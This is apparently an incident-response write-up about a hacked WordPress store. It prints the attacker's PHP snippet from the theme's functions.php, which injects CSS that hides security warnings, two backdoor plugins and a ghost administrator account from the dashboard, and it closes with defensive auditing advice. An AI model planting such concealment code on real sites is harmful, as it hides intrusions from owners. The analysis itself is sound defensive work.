





## The symptom: SEO spam on the frontend

We spent three hours last Tuesday pulling apart a compromised e-commerce site. The symptom was glaring. The frontend of the store was plastered with Indonesian gambling posts pushing "Demo Slot Tema Asia" and "Slot Deposit 5000".



We assumed the usual entry point — a vulnerable plugin allowing unauthenticated post creation. We purged the database of the SEO spam easily enough. The real problem was finding out how the attacker was maintaining access.

> **Key Takeaways**
>
> - Application UIs are unreliable during incident response; always verify user privileges and counts directly against `wp_users` and `wp_usermeta` database tables.
> - Attackers frequently use native theme files to inject CSS payloads, hiding security warnings and backdoor plugins via DOM manipulation.
> - Relying entirely on standard security plugins is insufficient if an attacker gains enough privilege to apply `display: none` to the plugin's own dashboard interface.

## The discrepancy: ghost admins in the UI

I checked the WordPress users list to audit administrator accounts. The UI showed an immediate discrepancy. The aggregate count at the top of the table clearly registers "Administrator (3)", but the data table only renders two rows.



A standard visual inspection misses this entirely. One administrator account was completely invisible to the site owner.

### Bypassing visual audits

Attackers usually build persistence by dropping obfuscated PHP shells in the `uploads` directory or burying base64-encoded strings deep in database transients. This attacker took a simpler, highly pragmatic approach. They altered the presentation layer to blind the site admins.

## The persistence layer: a CSS injection in functions.php

By checking the active theme files, we found a crude injection appended to the end of `wp-content/themes/botiga/functions.php`.



The attacker hooked into `admin_head` to echo a raw `<style>` block directly into the WordPress admin dashboard.

### Analyzing the attack code

Here is the payload we extracted:

```php
add_action('admin_head', 'my_custom_css_do');
function my_custom_css_do() {
echo '<style>
#wpadminbar #wp-admin-bar-hide-notifications {display:none;}
#adminmenu li#menu-users li:nth-of-type(5) {display:none;}
#adminmenu li#toplevel_page_itsec-dashboard {display:none;}
.plugins-php .plugins tr[data-slug="temporary-login-without-password"]{ display:none; }
.users-php .users tr[id="user-1087"]{ display:none; }
#adminmenu li#toplevel_page_manage_notices_settings {display:none;}
.plugins-php .plugins tr[data-slug="wp-hide-backed-notices"]{ display:none; }
</style>';
}
```

The mechanism relies entirely on CSS `display: none` to hide UI elements. Line by line:



It targets specific DOM nodes to suppress warning notifications, hide the iThemes Security dashboard menu item, and cloak two specific backdoor plugins: "Temporary Login Without Password" and "WP Hide Backend Notices".

Crucially, the rule `.users-php .users tr[id="user-1087"]` removes a specific user row from the admin panel view. Once we bypassed the UI and queried the database directly for ID 1087, we found our ghost administrator — an account named "AmranVai".



## Tradeoffs of the DOM-level rootkit

Every technical choice has tradeoffs, even for attackers. This method is incredibly cheap to implement. It requires zero complex PHP logic and completely bypasses basic security audits performed by non-technical store owners who only look at dashboards. But it breaks easily. Because the payload lives strictly in the active theme's `functions.php` file, a simple theme update or a switch to a default theme instantly strips the persistence mechanism and exposes the rogue user. It also leaves an obvious footprint in version control.

You cannot trust the application UI when auditing a compromised system. If the environment is breached, the DOM is just another vector for obfuscation. Audit the raw database tables.
